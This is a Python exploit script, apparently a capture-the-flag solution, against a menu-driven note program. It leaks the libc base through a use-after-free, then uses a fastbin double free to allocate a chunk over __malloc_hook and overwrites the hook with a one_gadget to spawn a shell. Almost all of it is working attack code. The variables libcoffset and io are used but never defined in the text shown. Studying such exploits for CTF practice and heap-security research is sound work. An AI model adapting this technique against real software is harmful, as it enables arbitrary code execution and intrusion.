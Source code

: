 ```python
onegadgetoffset = 0xf1147
def DEBUG():
	gdb.attach(io)
	io.interactive()

def add(size,content):
	io.sendafter('Choice>','1')
	io.sendafter('>',str(size))
	io.sendafter('>',content)

def view(idx):
	io.sendafter('Choice>','2')
	io.sendafter('>',str(idx))

def delnote(idx):
	io.sendafter('Choice>','3')
	io.sendafter('>',str(idx))
#leak libc with UAF
add(128,'A'*16)
add(128,'B'*16)
delnote(0)
view(0)
io.recvuntil("]:")
mainarena88 = u64(io.recv(6).ljust(8,'\x00'))
libcbase = mainarena88 - libcoffset
ONE_GADGET = libcbase + onegadgetoffset
malloc_hook = mainarena88 - 0x68
success("libcbase :" + hex(libcbase))
success("malloc_hook :"+hex(malloc_hook))
success("ONE_GADGET :"+hex(libcbase + onegadgetoffset))


#fastbin 2free attack

add(0x60,'D'*16) #2
add(0x60,'E'*16) #3
add(0x60,'F'*16)
delnote(2)   #double free
delnote(3)
delnote(2)


#arbitrary alloc
success("arbitrary alloc :" + hex(malloc_hook-0x1b-0x8))
paddingdis = malloc_hook-(malloc_hook-0x1b-0x8+0x10)
success("padding distance to overwrite malloc_hook :"+hex(paddingdis))
add(0x60,p64(malloc_hook-0x1b-0x8))
add(0x60,'le3d1ng')
add(0x60,'le3d1ng')


#overwrite MALLOC_HOOK and getshell
success("over writing MALLOC_HOOK...")
add(0x60,'A'*paddingdis+p64(ONE_GADGET))
io.sendlineafter(">",'1')
io.send('have fun')
success("GOT SHELL!")
io.interactive()
```
